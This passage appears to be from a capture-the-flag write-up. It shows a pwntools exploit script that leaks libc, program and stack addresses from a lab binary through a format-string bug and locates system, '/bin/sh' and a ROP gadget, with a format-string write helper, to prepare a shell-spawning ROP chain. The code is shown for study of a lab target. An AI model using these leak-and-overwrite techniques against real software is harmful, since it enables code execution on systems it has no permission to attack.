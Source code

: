 
Now that we get `/bin/sh` printed in the response, we can add a ropchain to call system in our final script as follows
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64",os="linux")
filename = './ntc'
libc=ELF("./libc.so.6")
e = elf = ELF(filename)

if args.REMOTE or args.remote:
		target=remote("docker.lab",5000)
else:
		target=process(filename)


def write_payload(write_location,write_value):
	payload=(fmtstr_payload(6, writes={write_location:write_value})) 
	target.sendline(payload)
	target.recv()

"""
72	0x7ffff7ec25c0 - _IO_2_1_stdout_
73	0x555555555485 - main
75	0x7fffffffdd78 - somewhere in the stack
"""

# Sending the format string 
payload=b"%72$p|%73$p|%75$p|"
target.sendlineafter(b'\n',payload)


# Fetch the leaked addresses
target.recvuntil(b'Entrez le hash NTLM : ')
libc_leak,main_leak,stack_leak,_=target.recvuntil(b' ').split(b'|')

# Parse the addresses
libc_leak=int(libc_leak,0)
main=main_leak=int(main_leak,0)
stack_leak=int(stack_leak,0)

# Calculate the libc addresses
libc.address= libc_leak - libc.sym['_IO_2_1_stdout_']
elf.address= main_leak - 0x1485 # (elf.sym.main)
system=libc.sym['system']
puts=libc.sym['puts']
binsh=next(libc.search(b'/bin/sh\x00'))
return_address =stack_leak - 0x320
pop_rdi=elf.address + 0x00000000000012b1

# Print addresses
print(f"[*] libc_leak : {hex(libc_leak)}")
print(f"[*] main_leak : {hex(main_leak)}")
print(f"[*] stack_leak : {hex(stack_leak)}")
print(f"[*] elf base : {hex(elf.address)}")
print(f"[*] pop_rdi : {hex(pop_rdi)}")
print(f"\n[*] libc base : {hex(libc.address)}")
print(f"[*] system : {hex(system)}")
print(f"[*] puts : {hex(puts)}")
print(f"[*] binsh : {hex(binsh)}")
print(f"[*] return_address : {hex(return_address)}")

```